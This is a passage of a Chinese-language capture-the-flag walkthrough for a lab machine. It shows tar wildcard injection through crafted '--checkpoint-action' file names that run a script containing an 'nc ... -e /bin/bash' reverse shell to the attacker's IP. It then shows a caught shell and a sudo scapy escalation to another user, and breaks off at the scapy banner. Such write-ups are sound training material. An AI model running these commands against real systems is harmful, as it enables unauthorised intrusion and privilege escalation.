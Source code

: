 分析 `/tmp/backup_home.tgz` 文件的内容，就是 `/home/torki/secret_garden/diary.txt` 这个文件

## 借助 tar 进行提权

```shell
(remote) carl@choc:/home/torki$ echo '' > secret_garden/--checkpoint=1
(remote) carl@choc:/home/torki$ echo ''>'secret_garden/--checkpoint-action=exec=sh pwn.sh'
(remote) carl@choc:/home/torki$ echo 'nc 192.168.56.102 8888 -e /bin/bash' > secret_garden/pwn.sh
(remote) carl@choc:/home/torki$ chmod +x secret_garden/pwn.sh
```

通过构建以上参数，就可以实现在 tar 的命令行中植入恶意参数，从而实现命令执行

## User - torki

```shell
┌─[randark@parrot]─[~]
└──╼ $ pwncat-cs -lp 8888
[23:57:42] Welcome to pwncat 🐈!
[23:58:01] received connection from 192.168.56.122:40952
[23:58:01] 0.0.0.0:8888: normalizing shell path
           192.168.56.122:40952: registered new host w/ db
(local) pwncat$ back
(remote) torki@choc:/home/torki/secret_garden$ whoami
torki
```

### 环境探测

```plaintext title="sudo -l"
User torki may run the following commands on choc:
    (sarah) NOPASSWD: /usr/bin/scapy
```

scapy 就是一个 Python 环境，所以很容易就能实现横向越权

## User - sarah

```shell
(remote) torki@choc:/home/torki/secret_garden$ sudo -u sarah /usr/bin/scapy
WARNING: Cannot read wireshark manuf database
INFO: Can't import matplotlib. Won't be able to plot.
INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().
WARNING: Failed to execute tcpdump. Check it is installed and in the PATH
WARNING: No route found for IPv6 destination :: (no default route?)
INFO: Can't import python-cryptography v1.7+. Disabled WEP decryption/encryption. (Dot11)
INFO: Can't import python-cryptography v1.7+. Disabled IPsec encryption/authentication.
WARNING: IPython not available. Using standard Python shell instead.
AutoCompletion, History are disabled.

                     aSPY//YASa
             apyyyyCY//////////YCa       |
            sY//////YSpcs  scpCY//Pp     | Welcome to Scapy
 ayp ayyyyyyySCP//Pp           syY//C    | Version 2.4.0
 AYAsAYYYYYYYY///Ps              cY//S   |
         pCCCCY//p          cSSps y//Y   | https://github.com/secdev/scapy
         SPPPP///a          pP///AC//Y   |
              A//A            cyP////C   | Have fun!
              p///Ac            sC///a   |
              P////YCpc           A//A   | Craft packets like it is your last
       scccccp///pSP///p          p//Y   | day on earth.
      sY/////////y  caa           S//P   |                      -- Lao-Tze
       cayCyayP//Ya              pY/Ya   |
        sY/PsY////YCc          aC//Yp
         sc  sccaCY//PCypaapyCP//YSs
```